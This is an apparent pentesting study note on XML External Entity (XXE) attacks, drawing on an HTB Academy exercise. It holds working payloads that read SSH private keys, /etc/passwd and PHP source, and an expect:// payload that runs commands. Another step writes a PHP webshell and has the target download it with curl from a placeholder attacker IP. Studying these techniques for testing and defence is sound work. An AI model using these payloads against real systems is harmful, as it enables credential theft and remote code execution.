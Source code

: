```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XXE

{% hint style="warning" %}
**Advanced file disclosure** and **blind data exfil** to be added.
{% endhint %}

## TL;DR

**Extensible Markup Language (XML)** is focused on the storage and transportation of data and its key compoments are depicted below (Figure 1).

<figure><img src="../../../.gitbook/assets/xxe_xml_compoments.png" alt=""><figcaption><p>Figure 1: The key components of an XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_syntax.asp">here</a>).</p></figcaption></figure>

If we need to use the XML-specific characters within an XML document they must be replaced with their corresponding entity references.

| XML reserved character | Entiry reference |
| ---------------------- | ---------------- |
| `<`                    | `&lt;`           |
| `>`                    | `&gt;`           |
| `&`                    | `&amp;`          |
| `'`                    | `&apos;`         |
| `"`                    | `&quot;`         |

What we are mostly interesting in from an attacker's POV is the [**XML Document Type Definition (DTD)**](https://www.w3schools.com/xml/xml\_dtd\_intro.asp) which allows the validation of an XML document against a pre-defined doc structure. The DTD can be placed within the XML doc itself (Figure 2), imported from an external file (Figure 3.1), or referenced through a URL (Figure 3.2).

<div>

<figure><img src="../../../.gitbook/assets/xxe_dtd.png" alt="" width="354"><figcaption><p>Figure 2: An example of a DTD placed within the XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/xxe_dtd_references.png" alt=""><figcaption><p>Figure 3: A DTD imported from an external file (1) and a URL (2) (images adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

</div>

Within DTDs we can define **entities** (XML variables) using the `ENTITY` keyword. We can define them either **internally** (followed by the entity name and its value) or **externally** (followed by the `SYSTEM` keyword and its path).

```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

## Payloads

### RCE

Look for SSH private keys.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///home/kali/.ssh/id_rsa">
]>
```

If the `PHP://expect` filter is installed (it's not by default) and the output is reflected.

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://whoami'">
]>
```

Fetch a webshell.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}

{% tab title="2. XXE" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

### LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

### Source Code

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Example: XXE to LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

The checkout process is sending data in XML format (Figure 4).

<figure><img src="../../../.gitbook/assets/xxe_example_checkout.png" alt=""><figcaption><p>Figure 4: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we also confirm this (Figure 5).

<figure><img src="../../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 5: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 6).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 6: LFI via XXE.</p></figcaption></figure>

In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive file.

## Resources

{% tabs %}
{% tab title="w3schools" %}
{% embed url="https://www.w3schools.com/xml/default.asp" %}
{% endtab %}

{% tab title="PortSwigger" %}
{% embed url="https://portswigger.net/web-security/xxe" %}
{% endtab %}

{% tab title="HackTricks" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity" %}
{% endtab %}
{% endtabs %}
